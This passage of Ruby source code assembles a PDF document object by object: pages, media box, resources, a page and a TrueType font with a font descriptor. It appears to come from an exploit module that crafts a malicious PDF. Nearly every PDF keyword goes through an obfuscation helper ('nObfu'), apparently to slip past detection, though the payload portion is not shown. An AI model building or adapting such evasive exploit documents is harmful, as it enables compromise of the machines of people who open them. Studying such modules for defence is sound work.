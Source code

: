 			# pages array
			xref << pdf.length
			pdf << ioDef(2) << nObfu("<<") << eol
			pdf << nObfu("/MediaBox ") << ioRef(3) << eol
			pdf << nObfu("/Resources ") << ioRef(4) << eol
			pdf << nObfu("/Kids [") << ioRef(5) << "]" << eol
			pdf << nObfu("/Count 1") << eol
			pdf << nObfu("/Type /Pages") << eol
			pdf << nObfu(">>") << eol
			pdf << endobj
	 
			# media box
			xref << pdf.length
			pdf << ioDef(3)
			pdf << "[0 0 595 842]" << eol
			pdf << endobj
	 
			# resources
			xref << pdf.length
			pdf << ioDef(4)
			pdf << nObfu("<<") << eol
			pdf << nObfu("/Font ") << ioRef(6) << eol
			pdf << ">>" << eol
			pdf << endobj
	 
			# page 1
			xref << pdf.length
			pdf << ioDef(5) << nObfu("<<") << eol
			pdf << nObfu("/Parent ") << ioRef(2) << eol
			pdf << nObfu("/MediaBox ") << ioRef(3) << eol
			pdf << nObfu("/Resources ") << ioRef(4) << eol
			pdf << nObfu("/Contents [") << ioRef(8) << nObfu("]") << eol
			pdf << nObfu("/Type /Page") << eol
			pdf << nObfu(">>") << eol # end obj dict
			pdf << endobj
	 
			# font
			xref << pdf.length
			pdf << ioDef(6) << nObfu("<<") << eol
			pdf << nObfu("/F1 ") << ioRef(7) << eol
			pdf << ">>" << eol
			pdf << endobj
	 
			# ttf object
			xref << pdf.length
			pdf << ioDef(7) << nObfu("<<") << eol
			pdf << nObfu("/Type /Font") << eol
			pdf << nObfu("/Subtype /TrueType") << eol
			pdf << nObfu("/Name /F1") << eol
			pdf << nObfu("/BaseFont /Cinema") << eol
			pdf << nObfu("/Widths []") << eol
			pdf << nObfu("/FontDescriptor ") << ioRef(9)
			pdf << nObfu("/Encoding /MacRomanEncoding")
			pdf << nObfu(">>") << eol
			pdf << endobj
	 